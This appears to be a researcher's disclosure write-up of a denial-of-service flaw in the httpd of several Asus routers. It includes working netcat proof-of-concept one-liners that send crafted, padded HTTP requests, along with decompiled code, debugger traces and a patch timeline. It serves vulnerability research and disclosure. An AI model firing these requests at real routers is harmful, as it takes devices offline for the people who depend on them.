

# Specially-crafted HTTP packet DoS/DDoS attack on Asus RT-AC86U, RT-AX88U, and many other Asus router
> Aug  3 2019, Altin Thartori, github.com/tin-z

## Vulnerability Details
The vulnerability is a DoS/DDoS, that resides in the httpd services, and so in most of the Asus router that uses cgi-bin interface (not Boa http server).
The vulnerability can be triggered from inside the router network, or by CSRF, and doesn't require authentication.

## POC
```
  #example 1:
  cat <(python -c "print 'get ' + '/Main_Login.asp%00'+'A'*(0x2710-(22+10+0x10)) + ' http/1.1' +'\n' +'User-Agent: ' " ) - | nc 192.168.1.1 80
  #example 2:
  cat <(python -c "print 'get ' + '/Main_Login.asp%00'+'A'*(0x2710-(22+10+0xd)) + ' http/1.1' +'\n' +'Referer: '" ) - | nc 192.168.1.1 80
  #example 3:
  cat <(python -c "print 'get ' + '/Main_Login.asp%00'+'A'*(0x2710-(22+10+0xc)) + ' http/1.1' +'\n' +'Cookie: '" ) - | nc 192.168.1.1 80

```

## Why
We inspected the Asus RT-AC86U firmware, (Version 3.0.0.4.384.45717).
After reversing the binary httpd, we found the function starting at 0x17F54 addresses to be the main interface comunicating with the client.

```
     1	int sub_17F54()
     2	{
     3	  ...
     4	  int req_get_or_post_or_head; // [sp+484h] [bp-2734h]@1
     5	  int canary; // [sp+2B94h] [bp-24h]@1
     6	
     7	  canary = _stack_chk_guard;
     8	  host_name = 0;
     9	  memset(&req_get_or_post_or_head, 0, 0x2710u);
    10	  if ( !fgets((char *)&req_get_or_post_or_head, 0x2710, (FILE *)fd_Socket_clnt) )
    11	  {
    12	    reply_1 = "No request found.";
    13	    reply_2 = "Bad Request";
    14	fail_req_path:
    15	    response_code = 400;
    16	    goto fail_req_path_2;
    17	  }
    18	  req_uri_path = (char *)&req_get_or_post_or_head;
    19	  
    20	  // check valid request head e.g. 'get / HTTP/1.1\n'
    21	  
    22	  ...
    23	
    24	0x1810C:
    25	  while ( fgets(body_req, (char *)&canary - body_req, (FILE *)fd_Socket_clnt)  // [1]
    26	       && strcmp(body_req, "\n")
    27	       && strcmp(body_req, "\r\n") )
    28	  {
    29	
    30	  ...
    31	
    32	0x183B4:
    33	      if ( !strncasecmp(body_req, "User-Agent:", 0xBu) )
    34	      {
    35	        v24 = body_req + 11;
    36	        stringp = v24;
    37	        v25 = strspn(v24, " \t"); //v25=0
    38	        user_agent_client_ptr = &v24[v25];
    39	        stringp = &v24[v25];
    40	        body_req = &v24[v25 + 1] + strlen(&v24[v25]); //  [2]
    41
    42	
```

So this is the execution flow:
- After parsing the uri, and the http version, we reach the line 24, and this is our scenario, before executing fgets:
```
 →    0x18124                  bl     0x14fa4 <fgets@plt>
   ↳     0x14fa4 <fgets@plt+0>    add    r12,  pc,  #0,  12
         0x14fa8 <fgets@plt+4>    add    r12,  r12,  #471040    ; 0x73000
      ────────── arguments (guessed) ────
      fgets@plt (
         $r0 = 0xfffeec6d → 0x00000000 → 0x00000000,
         $r1 = 0x0000000f → 0x0000000f,
         $r2 = 0x000e0be0 → 0xfbad2480 → 0xfbad2480
      )
```

- So now we have the 'body_req' that holds 0xfffeec6d which should now contain "User-agent: \n\0" as string, and so we get into the if path, in line 32
- After executing the line 40, then 'body_req' points to 0xfffeec7b, and so again we reach the loop, in the line 24, and this is our new scenario:
```
 →    0x18124                  bl     0x14fa4 <fgets@plt>
   ↳     0x14fa4 <fgets@plt+0>    add    r12,  pc,  #0,  12
         0x14fa8 <fgets@plt+4>    add    r12,  r12,  #471040    ; 0x73000
      ────────── arguments (guessed) ────
      fgets@plt (
         $r0 = 0xfffeec7b → 0x02720000 → 0x02720000,
         $r1 = 0x00000001 → 0x00000001,
         $r2 = 0x000e0be0 → 0xfbad2480 → 0xfbad2480
      )
```

- So now we have the 'body_req' that holds 0xfffeec7b which should now contains '\n\0', no it's not, because in our scenario the fgets reads one byte, 
  and stops after an EOF or a newline, but if a newline is read, it is stored into the buffer, and then a terminating null byte ('\0') is stored after 
  the last character in the buffer, which in our case is the place where belongs the newline.

- The fgets doesn't return NULL, because it has read at least something, but the problem is that, than we aren't able to update body_req, which still continue
  to points to 0xfffeec7b, and so we are stuck :( even if we disconnect the client


### Other Routers that are affected by the same Logic Bug
  RT-AX88U [Confirmed]
  RT-AC87 [Not Confirmed]
  ROG Rapture GT-AX11000 [Confirmed]
  RT-AC86U [Confirmed]
  RT-AC66U B1 [Not Confirmed]
  ROG Rapture GT-AC5300 [Confirmed]
  .. other Asus router that uses the same logic in httpd


## Timeline
- Aug  3 2019: The vulnerability is reported to Asus security advisory
- Aug  21 2019: Patch released also for RT-AC86U (v.3.0.0.4.384.81039), no CVE, my name added to contribution list 
- Aug  29 2019: Patch for RT-AC86U removed from the Asus website 
- ???
